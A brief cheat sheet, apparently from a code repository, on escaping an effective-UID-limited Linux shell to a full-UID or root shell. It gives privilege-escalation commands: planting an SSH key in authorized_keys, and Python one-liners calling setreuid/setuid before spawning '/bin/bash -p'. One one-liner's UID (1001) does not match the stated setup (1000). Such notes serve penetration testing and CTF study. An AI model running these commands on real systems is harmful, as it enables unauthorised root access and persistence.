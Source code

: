 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid
## ===============
1) using public key authentication technique to escape
-check the .ssh if we have write permission on authorized_keys
-write our own public key into the authorized_keys file
-ssh into the user with our own private key
//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape
/*
current setup
-------------
euid user: 1000(Eve)
uid user: 33 (www-data)
*/

rough idea how it works executing step by step:

python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")

one line command:
python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid
## =============
1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")

one line command:
python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

